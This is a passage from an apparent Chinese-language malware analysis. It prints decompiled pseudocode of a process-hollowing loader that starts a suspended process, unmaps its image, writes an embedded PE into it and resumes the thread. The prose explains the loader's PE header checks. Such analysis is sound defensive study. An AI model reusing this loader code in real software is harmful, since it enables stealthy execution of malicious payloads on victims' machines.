 ```
    return 0;
  v12 = (int)lpBuffer + v13[15];
  if ( *(_DWORD *)v12 != 17744 )
    return 0;
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  if ( !CreateProcessA(lpApplicationName, 0, 0, 0, 0, 4u, 0, 0, &StartupInfo, &ProcessInformation) )
    return 0;
  lpContext = (LPCONTEXT)VirtualAlloc(0, 0x2CCu, 0x1000u, 4u);
  lpContext->ContextFlags = 65543;
  if ( !GetThreadContext(ProcessInformation.hThread, lpContext) )
    return 0;
  Buffer = 0;
  lpBaseAddress = 0;
  NtUnmapViewOfSection = 0;
  ReadProcessMemory(ProcessInformation.hProcess, (LPCVOID)(lpContext->Ebx + 8), &Buffer, 4u, 0);// peb+8
  v2 = GetModuleHandleA(ModuleName);            // 获取ntdll.dll句柄
  NtUnmapViewOfSection = GetProcAddress(v2, ProcName);// NtUnmapViewOfSection
  if ( !NtUnmapViewOfSection )
    return 0;
  ((void (__stdcall *)(HANDLE, int))NtUnmapViewOfSection)(ProcessInformation.hProcess, Buffer);
  lpBaseAddress = VirtualAllocEx(
                    ProcessInformation.hProcess,
                    *(LPVOID *)(v12 + 52),
                    *(_DWORD *)(v12 + 80),
                    0x3000u,
                    0x40u);
  if ( !lpBaseAddress )
    return 0;
  WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, lpBuffer, *(_DWORD *)(v12 + 84), 0);
  for ( i = 0; i < *(unsigned __int16 *)(v12 + 6); ++i )
  {
    v4 = (char *)lpBuffer + 40 * i + v13[15] + 248;
    WriteProcessMemory(ProcessInformation.hProcess, (char *)lpBaseAddress + v4[3], (char *)lpBuffer + v4[5], v4[4], 0);
  }
  WriteProcessMemory(ProcessInformation.hProcess, (LPVOID)(lpContext->Ebx + 8), (LPCVOID)(v12 + 52), 4u, 0);
  lpContext->Eax = (DWORD)lpBaseAddress + *(_DWORD *)(v12 + 40);
  SetThreadContext(ProcessInformation.hThread, lpContext);
  ResumeThread(ProcessInformation.hThread);
  return 1;
}
```

刚开始就对拿到的资源进行了判断，判断是不是以`MZ`开头，`0xF`处的偏移是不是`PE`（我这里都右键进行了转换）这个操作也说明资源节处的文件是一个PE文件。

![image-20220316154907171](images/source_.png)
